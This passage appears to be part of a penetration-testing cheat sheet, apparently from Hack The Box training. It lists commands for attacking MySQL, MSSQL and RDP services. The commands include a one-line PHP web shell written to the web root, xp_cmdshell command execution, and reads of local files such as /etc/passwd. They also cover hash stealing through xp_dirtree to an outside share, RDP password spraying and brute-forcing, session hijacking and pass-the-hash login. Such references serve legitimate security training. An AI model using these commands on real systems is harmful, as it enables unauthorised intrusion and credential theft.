 |`mysql> SHOW TABLES;`|Show all available tables in the selected database in MySQL.|
|`mysql> SELECT * FROM users;`|Select all available entries from the "users" table in MySQL.|
|`sqlcmd> SELECT name FROM master.dbo.sysdatabases`|Show all available databases in MSSQL.|
|`sqlcmd> USE htbusers`|Select a specific database in MSSQL.|
|`sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`|Show all available tables in the selected database in MSSQL.|
|`sqlcmd> SELECT * FROM users`|Select all available entries from the "users" table in MSSQL.|
|`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`|To allow advanced options to be changed.|
|`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`|To enable the xp_cmdshell.|
|`sqlcmd> RECONFIGURE`|To be used after each sp_configure command to apply the changes.|
|`sqlcmd> xp_cmdshell 'whoami'`|Execute a system command from MSSQL server.|
|`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`|Create a file using MySQL.|
|`mysql> show variables like "secure_file_priv";`|Check if the the secure file privileges are empty to read locally stored files on the system.|
|`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`|Read local files in MSSQL.|
|`mysql> select LOAD_FILE("/etc/passwd");`|Read local files in MySQL.|
|`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`|Hash stealing using the `xp_dirtree` command in MSSQL.|
|`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`|Hash stealing using the `xp_subdirs` command in MSSQL.|
|`sqlcmd> SELECT srvname, isremote FROM sysservers`|Identify linked servers in MSSQL.|
|`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`|Identify the user and its privileges used for the remote connection in MSSQL.|

---

### Attacking RDP

|   |   |
|---|---|
|**Command**|**Description**|
|`crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`|Password spraying against the RDP service.|
|`hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`|Brute-forcing the RDP service.|
|`rdesktop -u admin -p password123 192.168.2.143`|Connect to the RDP service using `rdesktop` in Linux.|
|`tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`|Impersonate a user without its password.|
|`net start sessionhijack`|Execute the RDP session hijack.|
|`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`|Enable "Restricted Admin Mode" on the target Windows host.|
|`xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`|Use the Pass-The-Hash technique to login on the target host without a password.|

---